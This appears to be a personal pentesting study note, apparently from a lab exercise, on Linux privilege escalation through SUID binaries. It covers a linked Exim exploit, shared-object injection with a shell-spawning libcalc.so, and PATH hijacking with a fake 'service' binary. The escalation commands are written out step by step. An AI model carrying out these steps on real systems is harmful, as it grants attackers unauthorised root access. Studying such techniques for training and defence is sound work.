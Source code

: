 ```shell
```
### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- Find a known exploit. [Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search!

|             |                      |
| ----------- | -------------------- |
| exim-4.84-3 | [[cve-2016-1531.sh\|cve-2016-1531.sh]] |


</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- If we have a executable
- Search if is trying to load shared objects, but it cannot be found.
```shell
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
  ```

- like this
`open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)`

- Create the **.config** directory for the libcalc.so file:
```sh
mkdir /home/user/.config
```
- **Compile** the code [[libcalc.c\|libcalc.c]] (It **simply spawns a Bash shell.**) into a shared object at the location the **suid-so** executable was looking for it:
```shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
- Run again
`/usr/local/bin/suid-so`

strace /usr/bin/mount 2>&1 | grep -iE "open|access|no such file"

</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- If an executable can be exploited due to it inheriting the user's PATH and attempting to execute programs without specifying an absolute path.
- In this example the executable is trying to start an apache2 webserver
- Use `string` to look for string in the file.
```shell
strings /usr/local/bin/suid-env
```
- One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however **the full path** of the executable (/usr/sbin/service) **is not being used**.
- Compile the code (spawn a bash shell) [[service.c\|service.c]] into an executable.
```shell
gcc -o service /home/user/tools/suid/service.c
```
- Or like an e.g. copy the shell file as a executable
```shell
echo /bin/bash > file_to_execute
```
- Change the PATH [[PATH exploiting\|PATH exploiting]]
```shell
export PATH=/path_to_executable:$PATH
```
